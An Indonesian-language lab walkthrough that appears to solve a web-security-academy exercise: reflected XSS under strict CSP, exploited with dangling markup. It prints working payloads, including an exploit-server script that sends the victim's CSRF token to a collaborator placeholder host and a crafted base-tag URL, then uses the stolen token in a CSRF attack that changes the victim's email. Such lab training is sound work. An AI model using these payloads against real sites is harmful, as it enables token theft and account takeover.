 ### Penjelasan Solusi untuk Lab: Reflected XSS dengan CSP Ketat dan Dangling Markup Attack

Lab ini memerlukan Anda untuk mengeksploitasi kerentanan **Reflected XSS** yang dibatasi oleh **Content Security Policy (CSP)**. Serangan bertujuan untuk:  
1. Mencuri token **CSRF** pengguna.  
2. Menggunakan token untuk mengubah email pengguna menjadi `hacker@evil-user.net`.  

---

### **Langkah-langkah Penyelesaian**

#### **1. Masuk ke Akun yang Disediakan**
- Masuk ke akun dengan kredensial:  
  - **Username:** `wiener`  
  - **Password:** `peter`  

#### **2. Identifikasi Kerentanan XSS**
- Pergi ke fungsi "Change Email".  
- Coba masukkan payload XSS di parameter email, misalnya:  
  ```html
  "><script>alert(1)</script>
  ```
- Periksa apakah kode Anda terefleksi di halaman. Jika berhasil, Anda dapat mengeksploitasi celah ini.

---

#### **3. Dapatkan Payload Burp Collaborator**
- Buka **Burp Suite** dan pergi ke tab **Collaborator**.  
- Klik **Copy to clipboard** untuk mendapatkan payload unik Collaborator Anda.

---

#### **4. Siapkan Payload untuk Exploit**
- Pergi ke **Exploit Server** di lab.  
- Masukkan kode berikut ke dalam editor exploit, lalu sesuaikan dengan **Burp Collaborator ID**, **Lab ID**, dan **Exploit Server ID**:  
  ```html
  <script>
  if(window.name) {
      new Image().src='//YOUR-COLLABORATOR-ID?'+encodeURIComponent(window.name);
  } else {
      location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
  }
  </script>
  ```
- Klik **Store** untuk menyimpan script.  

---

#### **5. Kirim Exploit ke Korban**
- Klik **Deliver exploit to victim**.  
- Saat korban membuka tautan dan mengklik link "Click me", browser mereka akan mengirimkan token CSRF ke server Burp Collaborator Anda.

---

#### **6. Ambil Token CSRF**
- Kembali ke tab **Collaborator** di Burp Suite.  
- Klik **Poll now** untuk melihat interaksi HTTP dari server korban.  
- Salin token CSRF yang muncul di permintaan tersebut.

---

#### **7. Ganti Email Pengguna**
- Pergi ke fungsi "Change Email".  
- Masukkan email apa saja untuk memulai permintaan.  
- Aktifkan **Intercept** di Burp Suite untuk menangkap permintaan.  

##### **Modifikasi Permintaan:**
1. Ganti nilai parameter `email` menjadi `hacker@evil-user.net`.  
2. Ganti token CSRF dengan token yang Anda curi dari korban.  

- Setelah modifikasi, kirim permintaan.

---

#### **8. Hasilkan CSRF PoC**
- Di Burp Suite, klik kanan pada permintaan dan pilih:  
  **Engagement tools** → **Generate CSRF PoC**.  
- Pastikan opsi **Include auto-submit script** aktif.  
- Klik **Regenerate** dan salin kode HTML yang dihasilkan.

---

#### **9. Kirimkan CSRF Exploit ke Korban**
- Pergi ke **Exploit Server** di lab.  
- Tempelkan HTML CSRF PoC ke editor exploit.  
- Klik **Store** dan **Deliver exploit to victim**.  

---

#### **10. Verifikasi**
- Jika berhasil, email korban akan diubah menjadi `hacker@evil-user.net`.  
- Lab selesai.

---

### **Catatan Tambahan**
- **CSP Bypass:** Menggunakan metode dangling markup (seperti `<base>` atau `<script>`) adalah teknik bypass yang efektif untuk CSP ketat.  
- **Burp Collaborator:** Hanya berfungsi di dalam jaringan lab, pastikan Anda menggunakan payload unik yang disediakan oleh Burp Collaborator.  
